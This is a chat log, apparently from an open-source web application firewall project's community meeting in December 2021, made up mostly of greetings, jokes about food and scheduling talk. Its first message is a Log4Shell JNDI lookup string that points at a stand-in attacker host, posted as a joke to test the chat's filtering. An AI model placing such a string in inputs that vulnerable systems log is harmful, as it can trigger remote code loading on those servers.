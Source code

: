 ### Mon, Dec 20th, 2021

**walter** <span style="color: grey; font-size: 90%;">19:30:07 UTC</span>

<span style="font-size: 90%;">${jndi:[ldap://evil.com/wave2all](ldap://evil.com/wave2all)}</span>

**walter** <span style="color: grey; font-size: 90%;">19:30:43 UTC</span>

<span style="font-size: 90%;">I expect this to be blocked so I guess I’ll add a :wave: too</span>

**walter** <span style="color: grey; font-size: 90%;">19:31:13 UTC</span>

<span style="font-size: 90%;">and don’t forget, if you need quick food, there is Take Eat Justaway</span>

**dune73** <span style="color: grey; font-size: 90%;">19:31:34 UTC</span>

<span style="font-size: 90%;">No, Take Eat Justaway is not here anymore. :slightly_smiling_face:</span>

**walter** <span style="color: grey; font-size: 90%;">19:31:51 UTC</span>

<span style="font-size: 90%;">but maybe if they give us a sponsorship :slightly_smiling_face:</span>

**xanadu** <span style="color: grey; font-size: 90%;">19:32:02 UTC</span>

<span style="font-size: 90%;">Will develop 4 pizza</span>

**airween** <span style="color: grey; font-size: 90%;">19:32:32 UTC</span>

<span style="font-size: 90%;">hi everyone</span>

**dune73** <span style="color: grey; font-size: 90%;">19:32:45 UTC</span>

<span style="font-size: 90%;">I actually hooked on a call with JET last week so they could get to know the project. They are heavy users and will come back with ideas how they can support the project, even if not as a sponsor which I deem unlikely.</span>

**dune73** <span style="color: grey; font-size: 90%;">19:33:00 UTC</span>

<span style="font-size: 90%;">Hello everybody, welcome to the chat.</span>

**dune73** <span style="color: grey; font-size: 90%;">19:33:11 UTC</span>

<span style="font-size: 90%;">Good news: It's the last chat of the year!</span>

**walter** <span style="color: grey; font-size: 90%;">19:33:12 UTC</span>

<span style="font-size: 90%;">Always nice to hear when the project is used!</span>

**Paul Beckett** <span style="color: grey; font-size: 90%;">19:33:44 UTC</span>

<span style="font-size: 90%;">Good evening</span>

**walter** <span style="color: grey; font-size: 90%;">19:33:59 UTC</span>

<span style="font-size: 90%;">Yes! The next one is Jan 3rd. Not a problem for me, I have no travel plans, in fact I have no plans, because the Netherlands is back in lockdown.</span>

**franbuehler** <span style="color: grey; font-size: 90%;">19:34:26 UTC</span>

<span style="font-size: 90%;">Hello :wave:</span>
